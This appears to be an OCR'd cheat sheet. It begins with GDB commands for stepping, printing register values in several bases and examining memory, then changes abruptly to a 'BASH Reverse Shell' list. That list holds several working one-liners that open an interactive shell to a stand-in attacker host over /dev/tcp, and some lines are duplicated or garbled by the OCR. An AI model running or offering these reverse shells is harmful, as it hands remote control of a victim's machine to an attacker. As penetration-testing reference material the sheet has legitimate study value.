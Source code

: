 # Execute Next Instruction
next
step
n
s

# Continue Execution
continue
c

# Data
checking 'REGISTERS' and 'MEMORY'

# Display Register Values: (Decimal,Binary,Hex)
print /d –> Decimal
print /t –> Binary
print /x –> Hex
O/P :
(gdb) print /d $eax
$17 = 13
(gdb) print /t $eax
$18 = 1101
(gdb) print /x $eax
$19 = 0xd
(gdb)

# Display values of specific memory locations
command : x/nyz (Examine)
n –> Number of fields to display ==>
y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)
BASH Reverse Shell
bash -i >& /dev/tcp/X.X.X.X/443 0>&1

exec /bin/bash 0&0 2>&0
exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
exec 5<>/dev/tcp/attackerip/4444

cat <&5 | while read line; do $line 2>&5 >&5; done # or:
while read line 0<&5; do $line 2>&5 >&5; done
